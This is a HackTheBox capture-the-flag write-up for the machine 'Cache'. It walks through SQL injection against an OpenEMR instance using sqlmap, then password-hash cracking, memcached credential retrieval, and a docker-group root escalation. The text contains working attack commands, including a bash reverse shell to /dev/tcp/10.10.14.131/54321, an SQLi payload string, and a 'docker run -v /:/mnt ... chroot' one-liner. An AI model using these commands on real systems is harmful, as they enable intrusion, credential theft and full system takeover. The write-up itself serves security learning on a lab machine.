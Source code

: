 ```yaml
---
title: Cache Writeup [HTB]
tags: [HackTheBox, SQL Injection, Docker]
image: /assets/images/cache/cache.png
published: true
banner: true
---
```


Cache is a Linux based machine that was active since May 9th of 2020 to October 10th, we will start the machine checking the webpage, there we will find a subdomain, on that subdomain we will find an instance of openEMR vulnerable to SQL Injection and RCE, once inside the machine we will find a memcached server inside the machine, enumerating memcached we will find the password of another user, this user belongs to docker group, so we will start a docker image mapping the whole system to root the machine.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.188
nmap -sC -sV -p 80,22, -Pn -o scan.txt 10.10.10.188

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is only SSH and a webpage available, so let's check the webpage, we land on a kind of blog.

![](/assets/images/cache/webpage.png)

We start by looking at "login", there we see a login form.

![](/assets/images/cache/login.png)

But it doesn't do anything, it's more if we check it with burp we see a js file with the expected credentials.

![](/assets/images/cache/creds.png)

We tried them on ssh but we got nothing, so we move forward and keep exploring the site, we get to http://10.10.10.188/author.html.

![](/assets/images/cache/author.png)

There we see a domain, "cache.htb", but there is something else, there says "Check out his other projects like Cache: HMS(Hospital Management System)", so we can guess that there is a domain called hms.htb, so we add them to our hosts file and visit the site. Once we go to hms.htb we see an openEMR instance.

![](/assets/images/cache/openemr.png)

## [](#header-2)SQL Injection

Using findsploit we find a msf module to dump the whole database through SQL Injection, but the database of openEMR is huge, and dumping it would take a lot of time, also finding information among the dump would be hard, so let's see if we can do something by ourselves. We read the source code of the exploit located at "/usr/share/metasploit-framework/modules/auxiliary/sqli/openemr/openemr_sqli_dump.rb", while reading it we find the requests that is made on line 76.

```ruby
  def get_response(payload)
    send_request_cgi(
      'method' => 'GET',
      'uri' => normalize_uri(uri, 'interface', 'forms', 'eye_mag', 'taskman.php'),
      'vars_get' => {
        'action' => 'make_task',
        'from_id' => '1',
        'to_id' => '1',
        'pid' => '1',
        'doc_type' => '1',
        'doc_id' => '1',
        'enc' => "1' and updatexml(1,concat(0x7e, (#{payload})),0) or '"
      }
    )
  end
```

So we can see that the requests are made to "http://hms.htb/interface/forms/eye_mag/taskman.php?action=make_task&from_id=1&to_id=1&pid=1&doc_type=1&doc_id=1&enc=1", and the vulnerable parameter is "enc", so we feed that to sqlmap, also we see that the site isn't as fast as we would like so we have to increase the timeout (note that this will make sqlmap a lot slower that usual): `sqlmap -u 'http://hms.htb/interface/forms/eye_mag/taskman.php?action=make_task&from_id=1&to_id=1&pid=1&doc_type=1&doc_id=1&enc=1' -p enc --dbs --timeout=60 --batch`.

![](/assets/images/cache/database.png)

After waiting for a long time we get the databases (from the msf exploit we could guess that the SQLI was performed using an error technique, but for some reason if we especify it sqlmap would take longer, anyways still takes more than an hour), so let's retrieve the tables inside "openemr", and since we got that the database was mysql let's add that too, the same with the technique: `sqlmap -u 'http://hms.htb/interface/forms/eye_mag/taskman.php?action=make_task&from_id=1&to_id=1&pid=1&doc_type=1&doc_id=1&enc=1' -p enc --timeout=60 --batch --dbms=mysql -D openemr --tables --technique=E`.

![](/assets/images/cache/tables.png)

There are a lot of tables on the database, but the one that catches our attention is "users_secure", so let's dump it. `sqlmap -u 'http://hms.htb/interface/forms/eye_mag/taskman.php?action=make_task&from_id=1&to_id=1&pid=1&doc_type=1&doc_id=1&enc=1' -p enc --timeout=60 --batch --dbms=mysql -D openemr -T users_secure --dump --technique=E`

![](/assets/images/cache/dump.png)

We see a hash, "$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.", so we save it and crack it with john, we get that the password is "xxxxxx".

![](/assets/images/cache/hash.png)

# [](#header-1)Gaining Access

Searching for exploits we saw some RCE that required that we were authenticated, so now that we have credentials we can use them, so we will use [this one](https://www.exploit-db.com/exploits/45161), we save the exploit as "exp.py", set up a listener on port 54321 and execute `./exp.py http://hms.htb -u openemr_admin -p xxxxxx -c "bash -i >& /dev/tcp/10.10.14.131/54321 0>&1"`, and with that we will get a shell on the machine.

![](/assets/images/cache/shell1.png)

# [](#header-1)Lateral Movement

There are two users on the machine, luffy and ash, we got the password of ash while exploring the website, so we try it.

![](/assets/images/cache/shell2.png)

With that we got "user.txt".

# [](#header-1)Lateral Movement 2

There was actually no need of performing the last step, but let's continue, we see which ports are listenning locally, we see the mysql database and port 11211, which is the default port of memcached. If we were wrong we should have to make a port forwarding so we can reach that port and scan it with nmap, but we can test the port connecting to it with nc and trying some memcached commands, if we put "stats items" we see that there is only one slab id, 1, so we retrieve keys that are located there.
```
stats cachedump 1 100
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
```

Now we retrieve the values under user and passwd.
```
get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
END
```

We got another password so we can now change to the user "luffy".

![](/assets/images/cache/shell3.png)

# [](#header-1)Privilege Escalation

We see that the user luffy belongs to "docker" group, so if there is docker image we can start it mapping the whole system on it, we check available images.

![](/assets/images/cache/dimages.png)

There is "ubuntu" image, so we can start it mapping the whole system to "mnt" and using chroot on that directory, `docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh`, and with that we can get "root.txt".

![](/assets/images/cache/root.png)

# [](#header-1)Final Note

At the start of the exploit used there is a warning: "WARNING: This proof-of-concept exploit WILL replace the GLOBAL config. If you don't want the OpenEMR config to be reset to default, please modify the payload." There is a vulnerability report about openEMR, [link](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf), where there are reported several RCE techniques changing global variables, there is a high probability that the web application breaks using this exploit so the best option on the real world would be editing it as the warnning suggets.